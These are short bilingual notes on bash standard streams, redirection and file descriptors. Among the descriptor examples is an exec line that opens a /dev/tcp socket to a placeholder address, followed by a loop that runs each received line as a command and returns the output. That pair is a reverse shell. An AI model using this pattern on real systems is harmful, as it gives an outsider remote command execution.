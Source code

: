 # 标准流

## Standard streams <a href="firstheading" id="firstheading"></a>

in:0  out:1 error:2      redirect:            >&

list all open file descriptors:

```
ls -la /proc/$$/fd
```

\$$: PID of the current running shell.

create file descriptors

```
exec 5<>/dev/tcp/xx.xx.xx.xx/xxxx
```

```
cat <&5 | while read line; do $line 2>&5 >&5; done
```

```
exec 5<&0    创建5作为0的复制
exec 3<&-    删除3
```
